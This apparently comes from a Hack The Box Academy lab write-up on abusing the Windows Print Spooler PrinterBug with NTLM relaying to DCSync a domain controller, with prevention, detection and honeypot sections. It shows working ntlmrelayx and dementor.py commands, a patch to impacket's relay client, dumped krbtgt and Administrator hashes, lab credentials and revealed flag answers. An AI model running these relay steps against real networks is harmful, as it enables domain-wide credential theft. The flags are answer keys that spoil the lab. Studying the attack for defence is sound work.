

import RevealFlag from '@site/src/components/RevealFlag';
import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

# Print Spooler & NTLM Relaying

## Description

The [Print Spooler](https://learn.microsoft.com/en-us/windows/win32/printdocs/print-spooler) is an **old service** **enabled by default**, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, `Lee Christensen` found the `PrinterBug`. The functions [RpcRemoteFindFirstPrinterChangeNotification](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83) and [RpcRemoteFindFirstPrinterChangeNotificationEx](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) can be abused to **force a remote machine** to **perform a connection** to **any other machine** it can reach. Moreover, the `reverse` connection will **carry authentication information as a** `TGT`. Therefore, any domain user can coerce `RemoteServer$` to authenticate to any machine. Microsoft's stance on the `PrinterBug` was that it will not be fixed, as the issue is *"by-design"*.

The impact of `PrinterBug` is that **any Domain Controller** that has the `Print Spooler` enabled can be compromised in one of the following ways:

1. Relay the connection to another DC and perform DCSync (if `SMB Signing` is disabled).
2. Force the Domain Controller to connect to a machine configured for `Unconstrained Delegation (UD)` - this will **cache the TGT in the memory of the UD server**, which can be captured/exported with tools like `Rubeus` and `Mimikatz`.
3. Relay the connection to `Active Directory Certificate Services` to obtain a certificate for the Domain Controller. Threat agents can then use the **certificate on-demand** to **authenticate** and **pretend to be the Domain Controller** (e.g., `DCSync`).
4. Relay the connection to configure `Resource-Based Kerberos Delegation` for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

---

## Attack

In this attack path, we will relay the connection to another DC and perform `DCSync` (i.e., the first compromise technique listed). For the attack to succeed, **SMB Signing on Domain Controllers must be turned off**.

To begin, we will configure `NTLMRelayx` to forward any connections to `DC2` and attempt to perform the `DCSync` attack:

```bash
trustinveritas@htb[/htb]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```


Next, we need to trigger the `PrinterBug` using the Kali box with `NTLMRelayx` listening. To trigger the connection back, we'll use [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) (when running from a non-domain joined machine, any authenticated user credentials are required, and in this case, we assumed that we had previously compromised `Bob`):

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```



> Now, switching back to the terminal session with `NTLMRelayx`, we will see that `DCSync` was successful:


---

## Prevention

`Print Spooler` should be **disabled on all servers that are not printing servers**. **Domain Controllers** and `other core servers` should never have **additional roles/functionalities** that open and widen the attack surface toward the core AD infrastructure.

Additionally, there is an option to prevent the abuse of the `PrinterBug` while keeping the service running: **when disabling the registry key** `RegisterSpoolerRemoteRpcEndPoint`, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to **1** enables it, while **2** disables it:


---

## Detection

Exploiting the `PrinterBug` will leave traces of network connections toward the Domain Controller; however, they are too generic to be used as a detection mechanism.

In the case of using `NTLMRelayx` to perform `DCSync`, no [event ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4662) is generated *(as mentioned in the `DCSync` section)*; however, to obtain the `hashes` as `DC1` from `DC2`, there will be a successful logon event for DC1. This event originates from the IP address of the Kali machine, not the Domain Controller, as we can see below:


> A **suitable detection mechanism always correlates all logon attempts from core infrastructure servers** to their respective IP addresses *(which should be static and known)*.

---

## 🍯 Honeypot

It is possible to use the `PrinterBug` as means of alerting on suspicious behavior in the environment. In this scenario, we would **block outbound connections from our servers** to `ports 139` and `445`; software or physical firewalls can achieve this. Even though abuse can trigger the bug, the firewall rules will disallow the reverse connection to reach the threat agent. However, those blocked connections will act as signs of compromise for the blue team. Before enforcing anything related to this exploit, we should ensure that we have sufficient logs and knowledge of our environment to ensure that legitimate connections are allowed *(for example, **we must keep the mentioned ports open between DCs**, so that they can replicate data)*.

While this may seem suitable for a honeypot to trick adversaries, we should be careful before implementing it, as currently, the bug requires the machine to connect back to us, but if a new unknown bug is discovered, which allows for some type of `Remote Code Execution` without the reverse connection, then this will backfire on us. Therefore, we should only consider this option if we are an extremely mature organization and can promptly act on alerts and disable the service on all devices should a new bug be discovered.

---

## Questions

### `1. What is Kerberos des-cbc-md5 key for user Administrator?`

<RevealFlag>{`d9b53b1f6d7c45a8`}</RevealFlag>

#### `impacket-ntlmrelayx`

```bash
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```

```bash
mpacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

#### `dementor.py`

```bash
cd /home/kali/tools/
```

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

```bash
[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[*] Got expected RPC_S_SERVER_UNAVAILABLE exception. Attack worked
[*] done!
```

#### Received connection

<Tabs>
  <TabItem value="Error" label="Error">

<details>
<summary>If you get this error, try...</summary>

```bash
[*] SMBD-Thread-5 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
[*] Netlogon Auth OK, successfully bypassed autentication using Zerologon after 167 attempts!
[-] NRPC SessionError: code: 0xc000006a - STATUS_WRONG_PASSWORD - When trying to update a password, this return status indicates that the value provided as the current password is not correct.
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-6 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
[*] Netlogon Auth OK, successfully bypassed autentication using Zerologon after 149 attempts!
[-] NRPC SessionError: code: 0xc000006a - STATUS_WRONG_PASSWORD - When trying to update a password, this return status indicates that the value provided as the current password is not correct.
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-7 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
[*] Netlogon Auth OK, successfully bypassed autentication using Zerologon after 6 attempts!
[-] NRPC SessionError: code: 0xc000006a - STATUS_WRONG_PASSWORD - When trying to update a password, this return status indicates that the value provided as the current password is not correct.
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-8 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-9 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-10 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-11 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-12 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-13 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-14 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
[*] SMBD-Thread-15 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 199, in sendAuth
    newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 885, in hmac_md5
    h = hmac.new(key, digestmod=hashlib.md5)
  File "/usr/lib/python3.10/hmac.py", line 184, in new
    return HMAC(key, msg, digestmod)
  File "/usr/lib/python3.10/hmac.py", line 53, in __init__
    raise TypeError("key: expected bytes or bytearray, but got %r" % type(key).__name__)
TypeError: key: expected bytes or bytearray, but got 'int'
```

---

```py
# Recalc mic
authenticateMessage['MIC'] = b'\x00' * 16
if authenticateMessage['flags'] & NTLMSSP_NEGOTIATE_SEAL == 0:
    authenticateMessage['flags'] |= NTLMSSP_NEGOTIATE_SEAL

# 🔥 Quickfix: Ensure signingkey is bytes
if isinstance(signingkey, int):
    signingkey = signingkey.to_bytes(16, byteorder='little')

newmic = ntlm.hmac_md5(signingkey, self.negotiateMessage + self.challenge.getData() + authenticateMessage.getData())
authenticateMessage['MIC'] = newmic
self.session.sendBindType3(authenticateMessage.getData())
```

---

```bash
sudo cp ~/Desktop/dcsyncclient.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/
```

</details>

  </TabItem>
  <TabItem value="Success" label="Success">

```bash
[*] SMBD-Thread-5 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
[*] Netlogon Auth OK, successfully bypassed autentication using Zerologon after 25 attempts!
[-] NRPC SessionError: code: 0xc000006a - STATUS_WRONG_PASSWORD - When trying to update a password, this return status indicates that the value provided as the current password is not correct.
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/dcsyncclient.py", line 222, in sendAuth
    resp = self.session.request(request)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 858, in request
    self.call(request.opnum, request, uuid)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 847, in call
    return self.send(DCERPC_RawCall(function, body.getData(), uuid))
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 1300, in send
    self._transport_send(data)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 1192, in _transport_send
    sealedMessage, signature =  ntlm.SEAL(self.__flags,
  File "/usr/lib/python3/dist-packages/impacket/ntlm.py", line 807, in SEAL
    sealedMessage = handle(messageToEncrypt)
TypeError: 'bytes' object is not callable
[*] SMBD-Thread-6 (process_request_thread): Received connection from 172.16.18.3, attacking target dcsync://172.16.18.4
[*] Connecting to 172.16.18.4 NETLOGON service
[*] Netlogon Auth OK, successfully bypassed autentication using Zerologon after 45 attempts!
[*] EAGLE\DC1$ successfully validated through NETLOGON
[*] NTLM Sign/seal key: 154742594c7b95c220f0a47b2ece85bd 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:db0d0630064747072a7da3f7c3b4069e:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
krbtgt:aes128-cts-hmac-sha1-96:8ca6bbd37b3bfb692a3cfaf68c579e64
krbtgt:des-cbc-md5:580229010b15b52f
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
DC2$:1110:aad3b435b51404eeaad3b435b51404ee:c98e523a87cf57690508721fccc1c443:::
[*] Kerberos keys grabbed
DC2$:aes256-cts-hmac-sha1-96:406ffa655b1d7e076fd85343c64d3173407613e01f6720c61ef37857fd460b3a
DC2$:aes128-cts-hmac-sha1-96:29b1ba4ed8457571c76a4a5dc39999d6
DC2$:des-cbc-md5:8fad7525b9cbc47f
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fcdc65703dd2b0bd789977f1f3eeaecf:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
Administrator:aes128-cts-hmac-sha1-96:4667ae9266d48c01956ab9c869e4370f
Administrator:des-cbc-md5:d9b53b1f6d7c45a8
[*] Authenticating against dcsync://172.16.18.4 as EAGLE/DC1$ SUCCEED
[*] SMBD-Thread-8 (process_request_thread): Connection from 172.16.18.3 controlled, but there are no more targets left!
[*] SMBD-Thread-9 (process_request_thread): Connection from 172.16.18.3 controlled, but there are no more targets left!
```

  </TabItem>
</Tabs>

> `krbtgt:502:aad3b435b51404eeaad3b435b51404ee:db0d0630064747072a7da3f7c3b4069e:::`
> `Administrator:500:aad3b435b51404eeaad3b435b51404ee:fcdc65703dd2b0bd789977f1f3eeaecf:::`

---

### `2.  After performing the previous attack, connect to DC1 (172.16.18.3) as 'htb-student:HTB_@cademy_stdnt!' and make the appropriate change to the registry to prevent the PrinterBug attack. Then, restart DC1 and try the same attack again. What is the error message seen when running dementor.py?`

<RevealFlag>{`[-] unhandled exception occured: SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)`}</RevealFlag>

<br />

```bash
xfreerdp /v:172.16.18.3 /u:htb-student /p:HTB_@cademy_stdnt! /cert:ignore /network:lan /compression /clipboard /dynamic-resolution
```

#### `PrinterBug` add Registry Key

```powershell
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Printers' -Name 'RegisterSpoolerRemoteRpcEndPoint' -Value 2 -Force
```

Element | Meaning
--------|---------------
`Set-ItemProperty` | Modifies an existing registry value
`HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Printers` | Path to the Print Spooler settings
`RegisterSpoolerRemoteRpcEndPoint` | Controls whether the Spooler exposes RPC for remote clients
`-Value 2` | **2** = Disable remote RPC endpoint (blocks remote attacks but keeps local printing)
`-Force` | Forces writing the value, even if it exists